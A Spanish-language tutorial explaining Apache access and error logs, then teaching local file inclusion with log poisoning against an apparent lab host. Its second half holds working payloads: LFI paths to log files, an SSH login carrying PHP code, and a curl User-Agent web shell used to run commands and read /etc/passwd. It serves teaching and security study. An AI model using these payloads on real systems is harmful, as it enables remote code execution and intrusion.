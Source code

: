 

## ¿QUÉ ES UN LOG?

Un log en **Apache** es un archivo donde el servidor web **Apache HTTP Server** registra información sobre su actividad.

Estos registros son útiles para:

- monitorear el tráfico del sitio web
- diagnosticar errores
- analizar el rendimiento
- detectar posibles ataques o comportamientos anómalos

## Ubicación de los logs

La ubicación depende de la configuración y del sistema operativo, pero comúnmente:

- **Linux:** `/var/log/apache2/` o `/var/log/httpd/`
- **Windows:** dentro del directorio de instalación de Apache

## Configuración

Los logs se configuran en el archivo de configuración de Apache (`httpd.conf` o `apache2.conf`) mediante las siguientes directivas:

```apache
CustomLog "/var/log/apache2/access.log" combined
ErrorLog "/var/log/apache2/error.log"
```

## Tipos de logs en Apache

### 1️⃣ Access log (`access.log`)

El *Access log* registra **cada solicitud que recibe el servidor**.

Incluye información como:

- dirección IP del visitante  
- fecha y hora de la solicitud  
- página o recurso solicitado  
- código de estado HTTP (200, 404, 500, etc.)  
- navegador del cliente (User-Agent)  

**Ejemplo de línea típica:**  
```172.17.0.2 - - [06/Jun/2025:12:34:56 +0000] "GET /index.html HTTP/1.1" 200 1024```

### 2️⃣ Error log (`error.log`)

El *Error log* registra **mensajes de error y advertencias del servidor**.

Incluye:

- errores de configuración  
- errores de permisos  
- scripts que fallan (por ejemplo, en PHP)  
- problemas de red o hardware  

**Ejemplo de línea típica:**  
```[Fri Jun 06 12:34:56.789012 2025] [core:error] [pid 1234] [client 192.168.1.1:54321] File does not exist: /var/www/html/missing-page.html
```

### LFI, LOG POISONING

Sabiendo lo que son los logs, si llegamos a tener acceso a ellos, podemos intentar aprovecharlo para ejecutar código malicioso.

Si tenemos acceso a los archivos de logs mediante una vulnerabilidad LFI, por ejemplo:

```
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/apache2/access.log
http://example.com/index.php?page=/var/log/apache2/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```

Y sabemos que el puerto 22 (SSH) está abierto, la idea es intentar una conexión SSH fallida que reporte el error al log.

Al tener acceso al archivo de log, podremos ver ese reporte y entonces, ¿qué podemos hacer?  
Pues **mandar código PHP malicioso** para intentar inyectarlo en el log.

### Ejemplo de intento de inyección vía conexión SSH:

```bash
ssh "<?php system('id'); ?>" 172.17.0.2
```

Si en el log logramos ver algo como:

```
[Fri Jun 06 12:34:56.789012 2025] [php:error] [pid 1234] [client 172.17.0.2:54321] uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

habremos conseguido que el log muestre la salida del comando `id`.

Con esto podemos leer salidas en el log, y también archivos del sistema, como `/etc/passwd` para listar usuarios, etc.

---

### Verificar si el servidor interpreta PHP en los logs

Si además el servidor interpreta PHP dentro de esos logs, podemos enviar código malicioso directamente con `curl`:

```bash
curl http://172.17.0.2/ -A "<?php system(\$_GET['cmd']);?>"
```

Luego hacemos una solicitud que incluya el archivo de log y el comando a ejecutar:

```bash
curl "http://172.17.0.2/test.php?page=/var/log/apache2/access.log&cmd=id"
```

O desde el navegador web:

```
http://172.17.0.2/test.php?page=/var/log/apache2/access.log&cmd=id
```

Si logramos incrustar código PHP en el log y que luego sea interpretado, podremos ejecutar comandos arbitrarios en el servidor.

---

**Resumen:**  
- Accedemos a archivos de logs vía LFI  
- Inyectamos código PHP malicioso en los logs (log poisoning)  
- Si el log se interpreta como PHP, ejecutamos código remoto  
- Esto permite ejecutar comandos en el servidor y leer archivos sensibles

```


